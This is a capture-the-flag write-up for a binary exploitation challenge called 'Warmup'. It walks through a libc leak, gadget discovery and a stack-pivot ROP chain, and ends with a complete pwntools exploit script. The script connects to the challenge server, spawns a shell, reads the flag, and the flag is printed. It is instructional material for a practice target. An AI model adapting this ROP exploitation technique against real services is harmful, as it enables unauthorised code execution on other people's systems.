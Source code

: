 https://ctftime.org/event/2222

# Warmup (PWN)

Here's something to get you warmed up, spin that gdb up.

nc 172.210.129.230 1338

## Binary Analysis

- `main` @ `0x004011da`
    - reads up to 0x200 bytes into `name`
    - reads up to 0x58 bytes into a buffer onto the stack such that we control the return address

- `okey` @ `0x00401186`
    - provides us with a `pop rsp` gadget

So we must:
1) Write shellcode to `name`
2) Stack pivot, using the provided `pop rsp` gadget, to `name`.

## Getting libc.so.6

We can see from the `Dockerfile` that the task is using `ubuntu:latest`:

```
FROM ubuntu:latest

RUN apt-get update
RUN apt-get install socat -y

EXPOSE 1338

RUN useradd ctf

WORKDIR /chal
COPY warmup /chal
COPY flag.txt /chal

USER ctf

CMD ["socat", "tcp-l:1338,reuseaddr,fork", "EXEC:./warmup"]
```

We can grab that version of `libc.so.6` using ret's libc command:

```
$ ret libc ubunutu:latest
📥 adding "/tmp/ret-libc-2865571937/ubunutu:latest.libc.so.6" fc4c52f3910ed57a088d19ab86c671358f5e917cd4e95b21fd08e4fd922c0aa2
```

https://github.com/rerrorctf/ret/blob/main/commands/libc.go

Note that, due to the use of the `ubuntu:latest` tag, it is possible that you will get a `libc.so.6` with a different hash.

## Gadgets

Our provided `pop rsp` gadget:

```
$ ROPgadget --binary ./warmup | grep -E ": pop rsp"
0x000000000040118e : pop rsp ; ret
```

```
$ one_gadget ./libc.so.6 
0x583dc posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rax == NULL || {"sh", rax, rip+0x17302e, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

```

We need a gadget to write the address of the `one_gadget` to another region of writable memory that can function as a stack:

```
$ ROPgadget --binary ./libc.so.6 | grep -E ": mov qword ptr \[[a-z]{3}\], [a-z]{3} ; ret$"
0x000000000003b1e7 : mov qword ptr [rax], rdx ; ret
0x000000000009a077 : mov qword ptr [rcx], rdx ; ret
0x00000000000bf466 : mov qword ptr [rdi], rcx ; ret
0x00000000000bcb90 : mov qword ptr [rdi], rdx ; ret
0x000000000003ba60 : mov qword ptr [rdx], rax ; ret
0x00000000000b4644 : mov qword ptr [rdx], rcx ; ret
0x000000000013b961 : mov qword ptr [rsi], rdi ; ret
0x000000000005ad5a : mov qword ptr [rsi], rdx ; ret
```

We need a gadget, or set of gadgets, to conform with the `one_gadget` constraints:

```
$ ROPgadget --binary ./libc.so.6 | grep -E "pop rdx.*xor eax, eax.*; ret$"
0x00000000000b502c : pop rdx ; xor eax, eax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret
```

We can combine this, specifically the `pop rdx` part, with the `mov qword ptr [rdx], rsi` gadget above.

## Solution

One problem that I encountered was that when getting the shell `rsp` would end up pointing to a non-writable region of memory. To account for this I reuse the `pop rsp` gadget to set `rsp` to something more suitable prior to returning to the `one_gadget`'s address:

You can see the writable regions here. If we aim for the end of 0x404000 it will probably work well enough as a stack to avoid the crashes:

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x401000 r--p     1000      0 /home/user/ctf/warmup/warmup
          0x401000           0x402000 r-xp     1000   1000 /home/user/ctf/warmup/warmup
          0x402000           0x403000 r--p     1000   2000 /home/user/ctf/warmup/warmup
          0x403000           0x404000 r--p     1000   2000 /home/user/ctf/warmup/warmup
          0x404000           0x405000 rw-p     1000   3000 /home/user/ctf/warmup/warmup
    0x7ffff7c00000     0x7ffff7c28000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7c28000     0x7ffff7db0000 r-xp   188000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7db0000     0x7ffff7dff000 r--p    4f000 1b0000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7dff000     0x7ffff7e03000 r--p     4000 1fe000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7e03000     0x7ffff7e05000 rw-p     2000 202000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7ffff7e05000     0x7ffff7e12000 rw-p     d000      0 [anon_7ffff7e05]
    0x7ffff7f9e000     0x7ffff7fa1000 rw-p     3000      0 [anon_7ffff7f9e]
    0x7ffff7fbd000     0x7ffff7fbf000 rw-p     2000      0 [anon_7ffff7fbd]
    0x7ffff7fbf000     0x7ffff7fc3000 r--p     4000      0 [vvar]
    0x7ffff7fc3000     0x7ffff7fc5000 r-xp     2000      0 [vdso]
    0x7ffff7fc5000     0x7ffff7fc6000 r--p     1000      0 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7fc6000     0x7ffff7ff1000 r-xp    2b000   1000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ff1000     0x7ffff7ffb000 r--p     a000  2c000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000  36000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000  38000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    0x7ffffffdd000     0x7ffffffff000 rw-p    22000      0 [stack]
0xffffffffff600000 0xffffffffff601000 --xp     1000      0 [vsyscall]
```

Note that the `one_gadet` requires that `rsp & 0xf == 0`. This was achieved through simple trial and error of the `FAKE_STACK` location adding or subtracting 0x8 bytes until it is correct.

```python
from pwn import *

elf = ELF("./warmup", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="b *0x401280")
p = remote("172.210.129.230", 1338)

leak = int(p.readline().decode(), 16)
libc.address = leak - libc.sym["puts"]
log.success(f"libc: 0x{libc.address:X}")

p.readuntil(b"name>> ")

ONE_GADGET = libc.address + 0x583dc # rax=0 rbx=0 rsp&0xf=0
MOV_RSI_RDX = libc.address + 0x000000000005ad5a
POP_RDX_XOR_EAX_EAX_POP_RBX_POP_R12_POP_R13 = libc.address + 0x00000000000b502c
POP_RSI_POP_R15 = libc.address + 0x000000000010f759
POP_RSP = 0x000000000040118e
FAKE_STACK = 0x405000 - 0x208

payload = b""
payload += p64(POP_RSI_POP_R15)
payload += p64(FAKE_STACK)
payload += p64(0)
payload += p64(POP_RDX_XOR_EAX_EAX_POP_RBX_POP_R12_POP_R13)
payload += p64(ONE_GADGET)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(MOV_RSI_RDX)
payload += p64(POP_RSP)
payload += p64(FAKE_STACK)
p.sendline(payload)

p.readuntil(b"alright>> ")

payload = b"B" * 0x48
payload += p64(POP_RSP)
payload += p64(elf.symbols["name"])
p.sendline(payload)

p.clean()

p.sendline(b"/bin/cat flag.txt")

p.interactive()
```

## Flag
`AKASEC{1_Me44444N_J00_C0ULDve_ju57_574CK_p1V07ed}`

smiley 2024/06/08
